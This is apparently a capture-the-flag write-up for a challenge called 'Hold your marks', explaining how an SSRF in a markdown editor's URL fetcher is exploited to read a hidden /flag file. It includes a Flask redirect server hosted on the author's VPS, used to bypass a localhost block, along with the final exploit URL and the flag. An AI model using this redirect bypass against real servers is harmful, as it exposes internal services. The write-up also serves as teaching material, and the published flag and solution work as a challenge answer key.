

# Hold your marks

## Description

Experienced in the world of bug bounties, you stumble upon a markdown editor during your exploits. Your objective: infiltrate the server's defenses to access a concealed file, hidden away from external access. Can you leverage your skills to navigate through the editor's intricacies and uncover the secrets that lie within the server's depths?

## Solution

1. The page opens with 2 options for user input: One is a URL input to fetch markdown and one is a markdown editor
2. At first glace of the url input, the first thought i get is SSRF
3. I used interactsh to confirm the precence of SSRF
4. But there is a catch! i.e. All localhost interaction is blocked
5. Bypass? Yes, the easisest and common bypass would be to use a URL redirect to http://localhost/flag (Why flag? I saw a youtube video which used the /flag endpoint)
6. This was the code I came up with:
```python
from flask import Flask, redirect, request

app = Flask(__name__)

@app.route('/')
def redirect_to_user_url():
    user_url = request.args.get('url')
    if user_url:
        return redirect(user_url, code=302)
    else:
        return "Please provide a URL parameter.", 400

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=80)
```
7. This code was hosted on my vps. So, the final exploit url to get the flag was: http://server.ip?url=http://localhost/flag

## Screenshots



## Flag

flag{Uo9Cn5g9eodJrH2w7wR0Gw==}